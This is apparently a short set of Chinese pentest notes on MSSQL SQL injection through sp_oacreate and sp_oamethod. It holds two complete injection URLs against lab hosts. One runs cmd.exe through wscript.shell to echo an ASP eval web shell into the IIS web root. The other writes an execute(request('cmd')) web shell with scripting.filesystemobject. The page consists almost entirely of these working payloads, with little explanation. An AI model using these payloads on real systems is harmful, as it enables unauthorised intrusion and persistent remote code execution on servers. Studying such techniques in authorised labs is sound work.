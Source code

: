 ## sp_oacreate/sp_oamethod

### sp_oacreate/sp_oamethod执行系统命令  重定向写shell

http://192.168.100.226/less-1.asp?id=1';declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c echo "<%25eval request(123)%25>" > c:/inetpub/wwwroot/zhang.asp'--+

​![image](assets/image-20240906183852-zre8kyr.png)​

‍

### sp_oacreate/sp_oamethod写shell

http://192.168.100.225/less-2.asp?id=1;declare @o int, @f int, @t int, @ret int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'createtextfile', @f out, 'c:\inetpub\wwwroot\youze.asp', 1 exec @ret = sp_oamethod @f, 'writeline', NULL,'<%25execute(request("cmd"))%25>'

​![image](assets/image-20240906192412-zhc6rmp.png)​
